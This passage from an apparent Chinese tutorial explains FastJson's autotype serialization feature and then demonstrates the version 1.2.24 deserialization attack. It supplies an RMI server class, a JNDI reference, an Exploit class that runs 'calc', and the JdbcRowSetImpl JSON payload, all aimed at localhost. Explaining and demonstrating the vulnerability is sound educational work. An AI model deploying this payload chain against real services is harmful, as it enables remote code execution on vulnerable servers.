 这种情况下直接强转直接报ClassCastException异常；

### AutoType引入

为此FastJson引入了autotype功能，使用也很简单：

```
Apple apple = new Apple();
apple.setName("apple");
Buy buy = new Buy("online", apple);
String jsonString2 = JSON.toJSONString(buy, SerializerFeature.WriteClassName);
```

在序列化的时候指定**SerializerFeature.WriteClassName**即可，这样序列化之后的json字符串如下所示：

```
{"@type":"com.fastjson.Buy","fruit":{"@type":"com.fastjson.impl.Apple","name":"apple"},"mode":"online"}
```

可以看到在json字符串中包含了类信息，这样在反序列化的时候就可以转成具体的实现类；但是就是因为在json字符串中包含了类信息，给了黑客攻击的可能；

## 模拟攻击

现在的版本FastJson做了大量的防御手段包括黑名单，白名单等，为了模拟方便，了解问题，我们这边使用FastJson比较早的版本：**1.2.24**；  
在模拟之前我们需要了解一下获取到类信息之后是如何把属性设置到类对象中的，它是通过setXxx()来给类对象设值的；  
一个常见的攻击类是：**com.sun.rowset.JdbcRowSetImpl**，此类的dataSourceName支持传入一个rmi的源，然后可以设置autocommit自动连接，执行rmi中的方法；  
这里首选需要准备一个RMI类：

```
public class RMIServer {
    public static void main(String argv[]) {
         Registry registry = LocateRegistry.createRegistry(1099);
         Reference reference = new Reference("Exploit", "Exploit", "http://localhost:8080/");
         registry.bind("Exploit", new ReferenceWrapper(reference));
    }
}
```

这里的Reference指定了类名，已经远程地址，可以从远程服务器上加载class文件来实例化；准备好Exploit类，编译成class文件，然后把他放在本地的http服务器中即可；

```
public class Exploit {
    public Exploit() {
         Runtime.getRuntime().exec("calc");
    }
}
```

准备好这些之后，下面就需要模拟Json字符串了：

```
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

fastjson在反序化的时候，先执行setDataSourceName方法，然后setAutoCommit的时候会自动连接设置的dataSourceName属性，最终获取到Exploit类执行其中的相关操作，以上的程序会在本地调起计算器；  
注：以上起作用只会在我们使用没有指定具体类情况下：
